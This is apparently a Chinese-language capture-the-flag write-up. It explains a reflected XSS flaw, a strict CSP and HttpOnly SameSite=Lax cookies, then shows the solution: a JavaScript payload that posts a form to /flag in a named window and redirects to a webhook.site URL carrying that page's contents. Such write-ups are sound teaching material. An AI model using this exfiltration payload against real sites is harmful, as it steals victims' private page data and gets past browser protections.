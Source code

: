 ![](https://i.imgur.com/CLqzwwW.png)

cookie 中传入 adminpw 参数，值正确就可以获取 flag。

![](https://i.imgur.com/M3KwYUV.png)

上图未经任何过滤就把 id 参数对应的值回显到页面上，存在 XSS 漏洞。

但注意一下题目的 [CSP](https://www.cnblogs.com/mutudou/p/14373644.html) 策略

![](https://i.imgur.com/Jb7anMv.png)

默认是不允许加载任何来源的任意资源，但是可以执行内联的 JS 脚本。

如果没有这个 CSP 限制，那常规的操作肯定是让管理员访问 /flag 然后拿到网页的响应，之后向我们的 vps 发送一个携带 cookie 的请求。但是题目描述中已经明确地告诉我们管理员的 cookie 是 [HttpOnly](https://zhuanlan.zhihu.com/p/36197012) 的，这意味着在前端无法通过 JS 拿到 Cookie。

现在该怎么办？虽然可以执行内联的JS代码，但是不能直接获取cookie，并且不能加载其他任何域的资源。

不妨先看看题目描述的提示 [SameSite=Lax](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) 意味着什么（中英结合）：

![](https://i.imgur.com/E527Fyy.png)

上图告诉我们 Set-Cookie HTTP 响应标头的 SameSite 属性允许您声明您的 cookie 是否应限制在第一方或同一站点上下文中。

SameSite 属性接受三个值，这里说说第一个 `Lax` 是什么: Cookie 不会在正常的跨站点子请求（例如将图像或框架加载到第三方站点）上发送，而是在用户导航到原始站点时发送（即，在点击链接时）。

如果在最近的浏览器版本中未明确指定 SameSite，则这是默认的 cookie 值（请参阅浏览器兼容性中的“SameSite：默认为 Lax”功能）。

![](https://i.imgur.com/UNIDZAO.png)

感觉中文的更易于理解，它说我们可以通过顶级导航来发送 Cookie。

> 什么是顶级导航？在这篇文章：https://juejin.cn/post/7011005750143090695

> 如果对以上所说一知半解，推荐看看这篇：https://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html

WP 的思路很简单，就是通过顶级导航转到存在 XSS 漏洞的页面并执行我们构造的 JS 代码（发送含有 flag 的页面内容给我们）

> 注意由于 default-src 'none' 使得我们不可直接访问 /flag，只能通过顶级导航。![](https://i.imgur.com/xD1qhWt.png)

```javascript
<form method="post" id="theForm" action="/flag" target='bruh'>
    <!-- target 表示提交表单后在哪里显示响应信息 -->
    <!-- Form body here -->
</form>

<script> 
    let w = window.open('','bruh');
    document.getElementById('theForm').submit();
    setTimeout(()=>{
        document.location= `https://webhook.site/bdec584e-7d0e-41af-9dec-84eec09374e5?c=${w.document.body.innerHTML}`
    },500);
</script>
```
